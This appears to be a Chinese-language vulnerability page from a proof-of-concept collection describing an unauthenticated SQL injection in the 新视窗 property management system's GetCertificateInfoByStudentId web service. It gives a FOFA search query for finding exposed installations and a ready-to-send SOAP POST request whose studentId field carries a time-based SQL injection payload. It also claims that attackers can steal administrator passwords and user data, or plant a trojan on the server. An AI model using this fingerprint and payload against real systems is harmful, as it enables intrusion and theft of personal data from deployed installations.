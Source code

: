 ## 新视窗新一代物业管理系统GetCertificateInfoByStudentId存在SQL注入漏洞

新视窗新一代物业管理系统的XML Web services接囗GetCertifcatelnfoBvStudentld 实例处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息(例如，管理员后台密码、站点的用户个人信息)之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```
body="BPMSite/ClientSupport/OCXInstall.aspx"
```

## poc

```
POST /OfficeManagement/RegisterManager/Report/Training/Report/GetprintData.asmx HTTP/1.1
Host: your-ip
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetCertificateInfoByStudentId"
 
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetCertificateInfoByStudentId xmlns="http://tempuri.org/">
      <studentId>1;WAITFOR DELAY '0:0:5'--</studentId>
    </GetCertificateInfoByStudentId>
  </soap:Body>
</soap:Envelope>
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211840774.png)